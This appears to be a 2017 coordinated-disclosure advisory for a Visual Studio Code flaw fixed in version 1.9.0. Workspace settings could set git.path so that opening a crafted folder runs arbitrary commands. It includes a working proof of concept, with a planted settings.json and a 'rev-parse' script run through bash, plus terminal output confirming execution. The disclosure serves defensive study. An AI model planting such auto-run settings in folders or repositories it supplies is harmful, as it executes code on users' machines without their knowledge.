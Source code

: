 The following issue constitutes an arbitrary code execution vulnerability in
Visual Studio Code (herein referred to as "Code").

Users should upgrade to Code 1.9.0 or later.

<https://en.wikipedia.org/wiki/Visual_Studio_Code> says:

> Visual Studio Code is a source code editor developed by Microsoft for
> Windows, Linux and macOS. It includes support for debugging, embedded Git
> control, syntax highlighting, intelligent code completion, snippets, and code
> refactoring. It is also customizable, so users can change the editor's theme,
> keyboard shortcuts, and preferences. It is free and open-source, although the
> official download is under a proprietary license.

The vulnerability can be exploited in the event that a user loads a directory
in Code, where that directory contains specially-crafted contents. In Code
parlance, a directory represents a "Workspace".

This could arise in the following scenarios:

* Where an attacker controls a world-readable directory on a multi-user system
  (e.g. within `/tmp/`) that a user can be convinced to open as a Workspace.

* Where an attacker can provide a tarball that a user can be convinced to
  extract then open as a Workspace.

* Where an attacker controls a git repo which a user can be convinced to clone
  and then open as a Workspace.

Other scenarios are left as an exercise for the reader.

All examples below were captured using Code version 1.7.2 as installed on
Debian Testing from `code_1.7.2-1479766213_amd64.deb` (SHA256
`6bf92cc50f58053538d07f64d91b5cb2469c532dff130fb5107f402134e079b5`)

Disclosure Timeline
-------------------

* 5 Dec 2016 - Issue reported to the project with a coordinated disclosure date of 6 March 2017
* Late Jan 2017 - Issue fixed in various commits
* 2 Feb 2017 - 1.9.0 released
* 2 Mar 2017 - Advisory published

The project did not notify me that a fix had been published despite there being
an agreed-upon coordinated disclosure date (at 90 days or upon fix, whichever
came first)

CVE-2017-TODO Visual Studio Code automatically loads unsafe Workspace Settings
------------------------------------------------------------------------------

* OVE ID: OVE-20170302-0001
* Private disclosure date: 2016-12-06
* Public disclosure date: 2017-03-02
* Vendor advisory: <https://code.visualstudio.com/updates/v1_9#_settings-and-security>
* Affected versions: `< 1.9.0`

Code, when opening a Workspace, automatically loads Workspace Settings from a
file named `.vscode/settings.json`. Opening a Workspace is understood to be a
common activity, as it allows for the viewing and editing of multiple files
within a directory structure. Documentation regarding Workspace Settings and
their mechanics is available at
<https://code.visualstudio.com/Docs/customization/userandworkspace>

The loading of Workspace Settings allows for the configuration of unsafe
parameters, such as the path to the Git executable and whether Git
functionality should be enabled by the Workspace.

The specification of the path to the Git executable, and the enabling of Git
functionality, allows an attacker to induce arbitrary command execution upon
opening a Workspace within Code.

### POC

#### Cause the "yes" program to be executed

```text
[justin@671335e66d2d D ~]% mkdir -p test1/.vscode

[justin@671335e66d2d D ~]% cat > test1/.vscode/settings.json
{
  "git.path": "yes"
}
^D

[justin@671335e66d2d D ~]% ps -ef | grep yes
justin     934   394  0 07:00 pts/0    00:00:00 grep --color=auto yes

[justin@671335e66d2d D ~]% code ./test1/
  [... Code starts up as an X application ...]

[justin@671335e66d2d D ~]% ps -ef | grep yes
justin    1043   991 91 07:00 ?        00:00:03 /usr/share/code/code /usr/share/code/resources/app/out/bootstrap yes /home/justin/test1 utf8 /usr/share/code/code yes (GNU coreutils) 8.25 Copyright (C) 2016 Free Software Foundation, Inc. License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>. This is free software: you are free to change and redistribute it. There is NO WARRANTY, to the extent permitted by law.  Written by David MacKenzie.
justin    1066  1043 25 07:00 ?        00:00:01 yes rev-parse --show-toplevel
justin    1076   394  0 07:01 pts/0    00:00:00 grep --color=auto yes
```

`yes` is clearly running.

#### Discover how Git is being invoked:

`git.path` is set to be the path to a shell script which will snitch on how
`git` is being invoked.

```text
[justin@671335e66d2d D ~]% mkdir -p test2/.vscode

[justin@671335e66d2d D ~]% cat > test2/.vscode/settings.json
{
  "git.path": "/home/justin/test2/log_how_we_do.sh"
}
^D

[justin@671335e66d2d D ~]% cat > test2/log_how_we_do.sh
#!/bin/sh
echo "CWD: $PWD" >> /home/justin/how_we_do.log
echo "doing: $0 $@" >> /home/justin/how_we_do.log
echo "---" >> /home/justin/how_we_do.log
^D

[justin@671335e66d2d D ~]% chmod u+x test2/log_how_we_do.sh

[justin@671335e66d2d D ~]% code ./test2/
  [... Code starts up as an X application ...]

[justin@671335e66d2d D ~]% cat how_we_do.log
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh --version
---
CWD: /home/justin/test2
doing: /home/justin/test2/log_how_we_do.sh rev-parse --show-toplevel
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh status -z -u
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh symbolic-ref --short HEAD
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh for-each-ref --format %(refname) %(objectname)
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh remote --verbose
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh status -z -u
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh symbolic-ref --short HEAD
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh for-each-ref --format %(refname) %(objectname)
---
CWD: /home/justin
doing: /home/justin/test2/log_how_we_do.sh remote --verbose
---
```

Git is being invoked a number of times. It is first executed with the argument
`--version` with the CWD being the CWD from where Code was launched, and then
it is executed with the arguments `rev-parse --show-toplevel` with the CWD
being the path to the Workspace being opened.

In separate testing, it was found that Code will seemingly cease to perform Git
invocations if any invocation returns an exit code other than 0.

#### Gain code execution

We can set the Git path to be `bash` and plant a Bash script in the workspace
directory with a filename of `rev-parse`. `bash --version` returns an exit code
of 0, and so we should get through to the invocation of `bash rev-parse
--show-toplevel` which will execute our Bash script.

By having the `rev-parse` Bash script exit with a non-zero status, we can
early-out of the series of Git invocations.

```text
[justin@671335e66d2d D ~]% mkdir -p test3/.vscode

[justin@671335e66d2d D ~]% cat > test3/.vscode/settings.json
{
  "git.path": "bash"
}
^D

[justin@671335e66d2d D ~]% cat > test3/rev-parse
#!/bin/sh
echo "Arbitrary command execution as $(id)" > /home/justin/command_execution.proof
exit 1
^D

```

Trigger the bug:

```text
[justin@671335e66d2d D ~]% cat command_execution.proof
cat: command_execution.proof: No such file or directory

[justin@671335e66d2d D ~]% code ./test3/
  [... Code starts up as an X application ...]

[justin@671335e66d2d D ~]% cat command_execution.proof
Arbitrary command execution as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

---

Justin Steven

<https://twitter.com/justinsteven>

